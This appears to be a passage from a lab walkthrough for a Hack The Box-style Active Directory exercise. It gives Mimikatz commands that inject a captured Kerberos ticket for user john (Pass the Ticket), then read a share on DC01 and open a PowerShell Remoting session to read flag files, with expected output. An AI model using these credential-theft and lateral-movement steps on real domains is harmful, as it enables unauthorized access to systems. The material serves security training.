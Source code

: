```cmd
# Import john's TGT with Mimikatz
C:\tools\mimikatz.exe
privilege::debug
kerberos::ptt "C:\Users\Administrator\[0;461ec]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
exit

# Access john's shared folder
dir \\DC01.inlanefreight.htb\john

# Read the flag
type \\DC01.inlanefreight.htb\john\john.txt
```

**Expected Output**:
```cmd
Directory of \\DC01.inlanefreight.htb\john
07/14/2022  07:25 AM    <DIR>          .
07/14/2022  07:25 AM    <DIR>          ..
07/14/2022  03:54 PM                30 john.txt
               1 File(s)             30 bytes
```

### Exercise 3: PowerShell Remoting
**Question**: "Use john's TGT to perform a Pass the Ticket attack and connect to the DC01 using PowerShell Remoting. Read the flag from C:\john\john.txt"

```cmd
# Navigate to tools directory
cd C:\tools

# Import john's TGT with Mimikatz
mimikatz.exe
kerberos::ptt C:\tools\[0;461ec]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi
exit

# Launch PowerShell from same Command Prompt
powershell

# Connect via PowerShell Remoting
Enter-PSSession -ComputerName DC01

# Read flag file
cat C:\john\john.txt
```

**Expected Session**:
```powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> cat C:\john\john.txt
[FLAG_CONTENT]
```


[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> whoami